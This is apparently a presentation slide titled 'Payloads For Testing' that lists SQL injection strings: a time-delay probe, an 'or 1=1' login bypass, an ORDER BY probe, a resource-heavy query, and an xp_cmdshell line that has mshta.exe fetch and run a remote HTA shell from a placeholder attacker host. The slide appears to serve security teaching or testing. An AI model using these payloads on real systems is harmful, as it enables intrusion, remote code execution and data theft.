

# Payloads For Testing
') WAITFOR DELAY '0:0:5’-- [11]
admin' or 1=1 -- [12]
' order by 5 [11]
; EXEC xp_cmdshell 'mshta.exe http://<attacker_IP>:8000/shell.hta’-- [13]
select tab1 from (select decode(encode(convert(compress(post) using latin1),concat(post,post,post,post)),sha1(concat(post,post,post,post))) as tab1 from table_1)a; [14]